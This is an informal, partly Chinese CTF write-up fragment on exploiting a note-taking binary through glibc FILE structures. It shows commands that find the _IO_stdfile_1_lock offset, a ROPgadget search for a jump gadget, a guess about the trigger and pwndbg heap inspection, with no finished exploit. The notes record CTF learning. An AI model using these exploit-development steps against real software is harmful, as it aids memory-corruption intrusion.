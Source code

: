 ok 看完了 需要什么？
关键就是 stdout_lock 偏移
```
┌──(kali㉿kali)-[~/Desktop/CTF/smashctf/p2]
└─$ nm -D libc.so.6 | grep _IO_stdfile_1_lock

000000000021ba70 D _IO_stdfile_1_lock
```

关键就是 gadget 偏移
什么gadget ？
我们要的是这个
为什么需要这个 以后 再研究 heheh
```
add rdi, 0x10 ; jmp rcx

┌──(kali㉿kali)-[~/Desktop/CTF/smashctf/p2]
└─$ ROPgadget --binary libc.so.6 | grep "add rdi, 0x10 ; jmp rcx"
0x0000000000163830 : add rdi, 0x10 ; jmp rcx
```

需要的大概是 这样 然后怎样触发？
大概率是save 的时候
save 的感觉是 
```
----------------------
## Author: abc
### Note: abc
----------------------

----------------------
## Author: hihihi
### Note: mamamabbibiib
----------------------

nooooooooooooooo
```
应该是 buffer + payload 

## 3.4 how to find buffer of FILE get?
有点 玄学
buffer offset 大小是看 data 大小 所以
break create note 然后看一个note 几大
然后炸掉他的buffer size
不理0x290 kali 自带的

input 的时候是
author 
note

所以 是他的structure
0x30  ??? 可能是 meta data 
0x20 ???
0x110 -> author, note, password protected ....
```
pwndbg> parseheap
addr                prev                size                 status              fd                bk                                                                                                         
0x55555555b000      0x0                 0x290                Used                None              None
0x55555555b290      0x0                 0x30                 Used                None              None
0x55555555b2c0      0x0                 0x20                 Used                None              None
```